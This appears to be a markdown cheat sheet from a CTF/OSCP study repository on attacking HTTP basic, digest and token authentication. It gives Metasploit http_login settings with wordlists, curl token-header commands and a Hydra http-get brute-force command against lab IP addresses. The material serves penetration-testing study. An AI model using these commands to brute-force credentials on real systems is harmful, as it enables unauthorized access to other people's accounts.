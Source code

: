 # Authentication
## Basic authentication
### curl
<https://github.com/jai-the-seeker/CTF-OSCP/blob/master/utilities/curl.md#http-basic-authentication>
### metasploit 

`http_login` module
```sh
use auxiliary/scanner/http/http_login
set RHOSTS 192.165.34.3
set USER_FILE /tmp/users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /poc/
exploit
```
## Digest Authentication
<https://github.com/jai-the-seeker/CTF-OSCP/blob/master/utilities/curl.md#digest-authentication>
## Token Authentication
Hydra and metasploit `http_login` module doesn’t support token authentication.
We have to set the token in headers for token auth to work.
```sh
curl -H 'Authorization: Token <token>' 192.183.171.3
```
We have to write a custom wrapper around this command. In the script, we will rely on the fact
that on using the correct token, we will get something else than "Unauthorized Access".

You can refer this script <https://github.com/jai-the-seeker/CTF-OSCP/blob/master/scripts/bash_scripts.md#authorization-token>

After performing the dictionary attack we will get the password, which can be used to set the token in the headers
```sh
# -H, --header <header/@file> Pass custom header(s) to server
curl -H 'Authorization: Token 123123123' 192.186.248.3
```

## Hydra
### http-get
Options

`-l` single LOGIN name or `-L` FILE having list of LOGIN names

`-p` single PASSWORD  or `-P` FILE having list of passwords

`-t` Number of threads per target (default: 16)
```sh
hydra -L unix_users.txt -P passwords.txt 192.148.69.3 http-get /
```
### http-post-form
Ref
* <https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/>
* <https://www.youtube.com/watch?v=fFnEdoCyVhk&list=PLYmlEoSHldN7HJapyiQ8kFLUsk_a7EjCw&index=63>

